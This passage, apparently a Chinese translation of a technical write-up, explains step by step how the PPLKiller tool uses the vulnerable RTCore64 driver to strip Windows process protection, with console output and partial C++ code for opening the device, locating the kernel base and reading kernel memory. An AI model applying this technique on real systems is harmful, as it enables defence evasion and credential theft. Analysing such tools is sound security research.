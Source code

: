 禁用给定PID进程的保护可能如下所示。

```console
C:\Temp>PPLKiller.exe /disablePPL 644
PPLKiller 0.2版 由@aceb0nd提供
[+] 找到Windows 2009版本
[*] 已获取设备对象句柄
[*] Ntoskrnl基址: FFFFF80220600000
[*] PsInitialSystemProcess地址: FFFFE38E99E85040
[*] 当前进程地址: FFFFE38EA2E8B080
```

函数`disableProtectedProcesses()`首先打开设备`\\.\RTCore64`，这是在加载（64位）驱动程序时自动创建的设备。它将使用此句柄通过[`DeviceIoControl`](https://learn.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol)API向其发送命令。

```cpp
void disableProtectedProcesses(DWORD targetPID, Offsets offsets) {
    // 1. 打开设备 \\.\RTCore64
    const auto Device = CreateFileW(LR"(\\.\RTCore64)", GENERIC_READ | GENERIC_WRITE, 0, nullptr, OPEN_EXISTING, 0, nullptr);
    // ...
}
```

然后，它调用内部函数`getKernelBaseAddr()`，通过[`EnumDeviceDrivers`](https://learn.microsoft.com/en-us/windows/win32/api/psapi/nf-psapi-enumdevicedrivers)API获取Windows内核的地址。确实，这个API返回系统中每个设备驱动程序的加载地址，Windows内核是第一个条目。

```cpp
void disableProtectedProcesses(DWORD targetPID, Offsets offsets) {
    // ...
    // 2. 获取Windows内核基址
    const auto NtoskrnlBaseAddress = getKernelBaseAddr();
    Log("[*] Ntoskrnl基址: %p", NtoskrnlBaseAddress);
    // ...
}
```

现在，请做好准备，因为接下来的步骤可能会让你感到困惑，除非你已经是一个经验丰富的内核（利用）开发人员。它加载了内核镜像`ntoskrnl.exe`，使用`LoadLibraryW`，并使用API`GetProcAddress`获取`PsInitialSystemProcess`的地址，这甚至不是一个过程的名称。有点困惑吧？

```cpp
void disableProtectedProcesses(DWORD targetPID, Offsets offsets) {
    // ...
    // 3. 确定PsInitialSystemProcess的内核地址
    HMODULE Ntoskrnl = LoadLibraryW(L"ntoskrnl.exe");
    const DWORD64 PsInitialSystemProcessOffset = reinterpret_cast<DWORD64>(GetProcAddress(Ntoskrnl, "PsInitialSystemProcess")) - reinterpret_cast<DWORD64>(Ntoskrnl);
    FreeLibrary(Ntoskrnl);
    const DWORD64 PsInitialSystemProcessAddress = ReadMemoryDWORD64(Device, NtoskrnlBaseAddress + PsInitialSystemProcessOffset);
    Log("[*] PsInitialSystemProcess地址: %p", PsInitialSystemProcessAddress);
    // ...
}
```
